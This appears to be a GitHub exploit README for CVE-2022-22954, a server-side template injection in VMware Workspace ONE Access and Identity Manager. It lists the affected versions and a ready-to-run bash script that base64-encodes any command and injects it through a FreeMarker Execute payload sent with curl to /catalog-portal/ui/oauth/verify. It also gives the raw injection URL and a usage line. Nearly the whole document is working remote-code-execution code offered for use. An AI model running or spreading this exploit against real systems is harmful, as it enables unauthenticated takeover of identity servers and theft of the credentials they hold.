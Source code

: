 ### Affected systems
```
VMware Workspace ONE Access (Access) 20.10.0.0 – 20.10.0.1, 21.08.0.0 – 21.08.0.1
VMware Identity Manager (vIDM) 3.3.3 – 3.3.6
```

### Exploit code for server-side template injection
```
#!/bin/bash

set -euo pipefail
die () {
    echo >&2 "$@"
    exit 1
}

[ "$#" -eq 2 ] || die "Usage: $0 <target> <cmd>"

# Encode the CMD as Base64 to avoid spaces
ENCODED_CMD=$(echo "echo XYZ;$2;echo ZYX" | base64 -w0)

# Build the argument string based on Will Vu's public PoC
ARGS='deviceUdid=${"freemarker.template.utility.Execute"?new()("bash -c {eval,$({echo,'$(echo $ENCODED_CMD)'}|{base64,-d})}")}'

# Get the curl response
OUT=$(curl -sk https://$1/catalog-portal/ui/oauth/verify -H "Host: anything" -Gd error= --data-urlencode "$ARGS")

# Pull out the command result
echo $OUT | grep 'XYZ.*ZYX' | sed -re 's/.*XYZ\\n(.*)\\nZYX.*/\1/' -e 's/\\n/\n/g'
```

### Exploit
```
bash ./exploit <rhost> <command>
```

### Exploit paths
```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("whoami")}
```

### References
https://attackerkb.com/topics/BDXyTqY1ld/cve-2022-22954/rapid7-analysis?referrer=activityFeed

